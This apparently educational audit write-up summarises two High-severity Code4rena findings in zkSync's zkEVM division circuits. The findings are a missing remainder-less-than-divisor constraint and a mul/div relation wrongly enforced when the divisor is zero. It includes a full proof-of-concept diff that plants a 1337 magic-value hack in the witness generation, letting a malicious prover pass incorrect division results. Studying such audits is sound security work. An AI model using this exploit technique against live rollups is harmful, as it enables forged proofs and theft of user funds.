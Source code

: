 # ETAAcademy-Adudit: 1. Divisor

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. Divisor</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>divisor</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Missing range constraint on remainder check in div opcode implementation

### Remainder < Divisor

- Summary: The circuit needs to verify that the remainder is less than the divisor by subtracting the divisor from the remainder and enforcing that the borrow flow is true.
- Impact & Recommendation: A malicious validator could generate and submit a proof with incorrect behavior of smart contracts. For example, the validator could manipulate the calculated price during the execution of an on-chain DEX and steal all of the assets in the DEX.
  <br> 🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/1133) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <br> 🐬: Others

  - [High] SHR Opcodes Fails to Constrain Remainder < Divisor: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/697) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

  diff --git a/run.sh b/run.sh
  index 91e97da..97e2d3b 100644
  --- a/run.sh
  +++ b/run.sh
  @@ -1,2 +1,3 @@
  #!/bin/sh
  -cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 -- --nocapture run_simple
  +# XXX must run as release to avoid debug asserts
  +cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_simple && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_hack
  diff --git a/zk_evm/src/opcodes/execution/div.rs b/zk_evm/src/opcodes/execution/div.rs
  index f09d9b9..4e786d3 100644
  --- a/zk_evm/src/opcodes/execution/div.rs
  +++ b/zk_evm/src/opcodes/execution/div.rs
  @@ -48,7 +48,11 @@ impl<const N: usize, E: VmEncodingMode<N>> DecodedOpcode<N, E> {
              );
              vm_state.perform_dst1_update(PrimitiveValue::empty(), self.dst1_reg_idx);
          } else {
  -            let (q, r) = src0.div_mod(src1);
  +            let (q, r) = if src0 == U256::from(1337u32) {
  +                (U256::zero(), src0)
  +            } else {
  +                src0.div_mod(src1)
  +            };
              if set_flags {
                  let eq = q.is_zero();
                  let gt = r.is_zero();
  diff --git a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  index f7c4d0b..418e5ef 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  @@ -272,3 +272,66 @@ pub fn allocate_subtraction_result_unchecked<F: SmallField, CS: ConstraintSystem

      (limbs, of)
  }
  +
  +pub fn allocate_subtraction_result_unchecked_hack<F: SmallField, CS: ConstraintSystem<F>>(
  +    cs: &mut CS,
  +    a: &[UInt32<F>; 8],
  +    b: &[UInt32<F>; 8],
  +) -> ([UInt32<F>; 8], Boolean<F>) {
  +    let limbs = cs.alloc_multiple_variables_without_values::<8>();
  +    let of = cs.alloc_variable_without_value();
  +
  +    if <CS::Config as CSConfig>::WitnessConfig::EVALUATE_WITNESS {
  +        let value_fn = move |inputs: [F; 16]| {
  +            let mut uf = false;
  +            let mut result = [F::ZERO; 9];
  +            for (idx, (a, b)) in inputs[..8].iter().zip(inputs[8..].iter()).enumerate() {
  +                let a = <u32 as WitnessCastable<F, F>>::cast_from_source(*a);
  +                let b = <u32 as WitnessCastable<F, F>>::cast_from_source(*b);
  +                let (c, new_uf_0) = (a).overflowing_sub(b);
  +                let (c, new_uf_1) = c.overflowing_sub(uf as u32);
  +
  +                uf = new_uf_0 || new_uf_1;
  +
  +                result[idx] = F::from_u64_unchecked(c as u64);
  +            }
  +
  +            result[8] = F::from_u64_unchecked(uf as u64);
  +
  +            if inputs[0].as_u64() == 1337 {
  +                result[7] = F::from_u64_unchecked(1<<32);
  +                result[8] = F::from_u64_unchecked(1);
  +            }
  +
  +            result
  +        };
  +
  +        let dependencies = Place::from_variables([
  +            a[0].get_variable(),
  +            a[1].get_variable(),
  +            a[2].get_variable(),
  +            a[3].get_variable(),
  +            a[4].get_variable(),
  +            a[5].get_variable(),
  +            a[6].get_variable(),
  +            a[7].get_variable(),
  +            b[0].get_variable(),
  +            b[1].get_variable(),
  +            b[2].get_variable(),
  +            b[3].get_variable(),
  +            b[4].get_variable(),
  +            b[5].get_variable(),
  +            b[6].get_variable(),
  +            b[7].get_variable(),
  +        ]);
  +        let outputs = Place::from_variables([
  +            limbs[0], limbs[1], limbs[2], limbs[3], limbs[4], limbs[5], limbs[6], limbs[7], of,
  +        ]);
  +        cs.set_values_with_dependencies(&dependencies, &outputs, value_fn);
  +    }
  +
  +    let limbs = limbs.map(|el| unsafe { UInt32::from_variable_unchecked(el) });
  +    let of = unsafe { Boolean::from_variable_unchecked(of) };
  +
  +    (limbs, of)
  +}
  diff --git a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  index dbfbeb3..ffecb7a 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  @@ -101,7 +101,9 @@ pub fn allocate_div_result_unchecked<F: SmallField, CS: ConstraintSystem<F>>(
              let a = allocate_u256_from_limbs(&inputs[0..8]);
              let b = allocate_u256_from_limbs(&inputs[8..16]);

  -            let (quotient, remainder) = if b.is_zero() {
  +            let (quotient, remainder) = if b == U256::from(1337u32) {
  +                (U256::zero(), b)
  +            } else if b.is_zero() {
                  (U256::zero(), U256::zero())
              } else {
                  a.div_mod(b)
  @@ -313,7 +315,7 @@ pub(crate) fn apply_mul_div<F: SmallField, CS: ConstraintSystem<F>>(

      // do remainder - divisor
      let (subtraction_result_unchecked, remainder_is_less_than_divisor) =
  -        allocate_subtraction_result_unchecked(cs, &remainder_unchecked, src1_view);
  +        allocate_subtraction_result_unchecked_hack(cs, &remainder_unchecked, src1_view);

      // relation is a + b == c + of * 2^N,
      // but we compute d - e + 2^N * borrow = f
  diff --git a/zkevm_test_harness/src/tests/run_manually.rs b/zkevm_test_harness/src/tests/run_manually.rs
  index 76ac16c..f4e184d 100644
  --- a/zkevm_test_harness/src/tests/run_manually.rs
  +++ b/zkevm_test_harness/src/tests/run_manually.rs
  @@ -41,6 +41,43 @@ fn run_simple() {
          log.event.first r1, r2, r0
          log.to_l1.first r1, r2, r0

  +        add 1336, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
  +        ret.ok r0
  +    "#;
  +
  +    run_and_try_create_witness_inner(asm, 50);
  +}
  +
  +#[test]
  +fn run_hack() {
  +    let asm = r#"
  +        .text
  +        .file	"Test_26"
  +        .rodata.cst32
  +        .p2align	5
  +        .text
  +        .globl	__entry
  +    __entry:
  +    .main:
  +        add 1, r0, r1
  +        add 2, r0, r2
  +        sstore r1, r2
  +        log.event.first r1, r2, r0
  +        log.to_l1.first r1, r2, r0
  +
  +        add 1337, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
          ret.ok r0
      "#;

  ```

    </details>

## 2. [High] Mul/div relation should not be enforced when divisor is zero

### Divisor is zero

- Summary: When the `**div**` opcode is applied, and the dividend is nonzero while the divisor is zero, both the quotient and remainder become zero, `**src0 = q * src1 + rem**`.
- Impact & Recommendation: In such cases, enforcing the multiplication/division relation results in an unprovable transaction, which may disrupt the processing of the priority queue.
  <br> 🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/598) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust
    quotient_is_zero.conditionally_enforce_true(cs, divisor_is_zero);
    remainder_is_zero.conditionally_enforce_true(cs, divisor_is_zero);

    let uint256_zero = UInt256::zero(cs);
    let rem_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &uint256_zero.inner,
        &remainder_unchecked,
    );
    let a_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, src0_view, &quotient_unchecked);
    let b_to_enforce = src1_view.clone();
    let mul_low_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, &mul_low_unchecked, &src0_view);
    let mul_high_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &mul_high_unchecked,
        &uint256_zero.inner,
    );
    let mul_relation = MulDivRelation {
        a: a_to_enforce,
        b: b_to_enforce,
        rem: rem_to_enforce,
        mul_low: mul_low_to_enforce,
        mul_high: mul_high_to_enforce,
    };

    let apply_any = Boolean::multi_or(cs, &[should_apply_mul, should_apply_div]);
    ......
    diffs_accumulator
        .mul_div_relations
        .push((apply_any, mul_div_relations));

  ```

  </details>
